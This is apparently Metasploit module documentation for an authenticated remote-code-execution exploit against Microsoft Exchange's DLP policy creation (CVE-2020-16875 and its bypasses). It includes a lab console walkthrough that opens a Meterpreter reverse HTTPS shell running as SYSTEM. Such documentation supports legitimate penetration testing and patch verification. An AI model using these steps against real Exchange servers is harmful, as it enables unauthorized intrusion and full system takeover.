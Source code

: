## Vulnerable Application

### Description

This vulnerability allows remote attackers to execute arbitrary code on affected installations of Exchange Server.
Authentication is required to exploit this vulnerability. Additionally, the target user must have the `Data Loss
Prevention` role assigned and an active mailbox.

If the user is in the `Compliance Management` or greater `Organization Management` role groups, then they have the `Data
Loss Prevention` role. Since the user who installed Exchange is in the `Organization Management` role group, they
transitively have the `Data Loss Prevention` role.

The specific flaw exists within the processing of the `New-DlpPolicy` cmdlet. The issue results from the lack of proper
validation of user-supplied template data when creating a DLP policy. An attacker can leverage this vulnerability to
execute code in the context of `SYSTEM`.

Tested against Exchange Server 2016 CU19 on Windows Server 2016.

#### A Note On Patches And Bypasses

The root cause of this vulnerability was first identified and reported to Microsoft who assigned it CVE-2020-16875 and
attempted to fix it in Exchange Server 2016 Cumulative Update (CU) 18 and Exchange Server 2019 CU7 which were released
on September 15th, 2020. The patch was later able to be [bypassed][1], allowing newer versions upto and including 
Exchange Server 2016 CU19 and Exchange Server 2019 CU8 which were released on December 15th 2020. One of the first patch
bypasses was assigned CVE-2020-17132 and was addressed by Microsoft, however that patch too was able to be bypassed.

### Setup

Set up a [vulnerable target](#targets).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`Exchange Server <= 2016 CU19 and 2019 CU6`

## Options

### USERNAME

Set this to the OWA username.

### PASSWORD

Set this to the OWA password.

## Scenarios

### Exchange Server 2016 CU17 on Windows Server 2016

```
msf6 > use exploit/windows/http/exchange_ecp_dlp_policy 
[*] Using configured payload windows/x64/meterpreter/reverse_https
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set USERNAME smcintyre
USERNAME => smcintyre
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set PASSWORD Password1
PASSWORD => Password1
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > set VHOST WIN-BPID95ACQ7E
VHOST => WIN-BPID95ACQ7E
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > show options 

Module options (exploit/windows/http/exchange_ecp_dlp_policy):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Password1        no        OWA password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.42   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   USERNAME   smcintyre        no        OWA username
   VHOST      WIN-BPID95ACQ7E  no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.159.128  yes       The local listener hostname
   LPORT     8443             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Exchange Server <= 2016 CU19 and 2019 CU8


msf6 exploit(windows/http/exchange_ecp_dlp_policy) > check
[*] 192.168.159.42:443 - The target appears to be vulnerable. Exchange Server 15.1.2176 is a vulnerable build.
msf6 exploit(windows/http/exchange_ecp_dlp_policy) > exploit

[*] Started HTTPS reverse handler on https://192.168.159.128:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Exchange Server 15.1.2176 is a vulnerable build.
[*] Logging in to OWA with creds smcintyre:Password1
[+] Successfully logged in to OWA
[*] Retrieving ViewState from DLP policy creation page
[+] Successfully retrieved ViewState
[*] Creating custom DLP policy from malicious template
[*] https://192.168.159.128:8443 handling request from 192.168.159.42; (UUID: lg8kqsog) Staging x64 payload (201308 bytes) ...
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 192.168.159.42:37415) at 2021-01-13 09:17:08 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html
